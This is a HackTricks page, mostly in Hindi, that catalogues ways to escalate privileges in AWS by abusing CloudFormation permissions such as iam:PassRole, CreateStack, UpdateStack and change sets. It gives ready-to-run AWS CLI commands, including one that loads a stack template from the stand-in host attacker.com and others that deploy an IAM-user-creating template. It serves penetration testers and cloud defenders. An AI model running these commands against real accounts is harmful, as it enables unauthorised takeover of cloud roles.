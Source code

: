 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

इन अनुमतियों के साथ एक हमलावर **privileges को बढ़ा सकता है** एक **CloudFormation stack** को एक कस्टम टेम्पलेट के साथ तैयार करके, जो उनके सर्वर पर होस्ट किया गया है, ताकि **निर्धारित भूमिका के अनुमतियों के तहत क्रियाएँ निष्पादित की जा सकें:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
इस पृष्ठ पर आपके पास एक **शोषण उदाहरण** है जिसमें अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक **मौजूदा क्लाउडफॉर्मेशन स्टैक** का दुरुपयोग कर सकते हैं ताकि इसे अपडेट किया जा सके और पिछले परिदृश्य की तरह विशेषाधिकार बढ़ाए जा सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं है** तो आप अभी भी **स्टैक्स को अपडेट** कर सकते हैं और **IAM भूमिकाओं का दुरुपयोग कर सकते हैं जो पहले से जुड़ी हुई हैं**। शोषण उदाहरण के लिए पिछले अनुभाग की जांच करें (बस अपडेट में कोई भूमिका न बताएं)।

The `cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क जो पहले से जुड़ी हुई है।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **भूमिका पास करने और एक ChangeSet बनाने और निष्पादित करने की अनुमति है** वह **एक नया क्लाउडफॉर्मेशन स्टैक बना/अपडेट कर सकता है और क्लाउडफॉर्मेशन सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित शोषण एक **परिवर्तन है**[ **CreateStack एक**](./#iam-passrole-cloudformation-createstack) **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `ChangeSet` अनुमतियाँ देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए प्रिवेस्क।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछले तरीके की तरह है बिना **IAM भूमिकाएँ** पास किए, इसलिए आप बस **पहले से जुड़े हुए का दुरुपयोग** कर सकते हैं, बस पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** पहले से जुड़े क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग करके स्टैकसेट्स बनाने/अपडेट करने के लिए क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं के लिए प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग बिना पासरोल अनुमति के स्टैकसेट्स को अपडेट करने के लिए कर सकता है ताकि जुड़े हुए क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग किया जा सके।

**संभावित प्रभाव:** जुड़े हुए क्लाउडफॉर्मेशन भूमिकाओं के लिए प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
